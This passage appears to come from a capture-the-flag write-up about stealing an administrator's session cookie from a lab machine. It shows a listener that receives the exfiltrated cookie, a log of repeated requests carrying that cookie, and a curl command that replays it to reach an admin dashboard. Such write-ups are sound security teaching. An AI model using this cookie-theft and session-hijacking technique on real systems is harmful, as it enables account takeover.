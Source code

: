However, you must not forget to set up a **web server** with python for example to be able to receive the request with the cookie :

```bash
python -m http.server 80
```

Now that everything is ready, we can let our request go, and wait for a GET to be made to my web server with the admin cookie.

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.8 - - [04/Aug/2024 15:08:45] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:45] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:45] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:45] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:46] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:46] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:46] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:46] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:47] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:47] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:47] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:47] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:48] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:48] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:48] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 15:08:48] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```

Nice ! We got the session cookie from the administrator. We will leave our web server open in case the cookie changes.

Okay, now that we have a valid session cookie ( is_admin ), we can replace it with our own to potentially access `/dashboard` ( to be able to preview, we can use curl ) :

```bash
curl -b "is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0" http://10.10.11.8:5000/dashboard
```
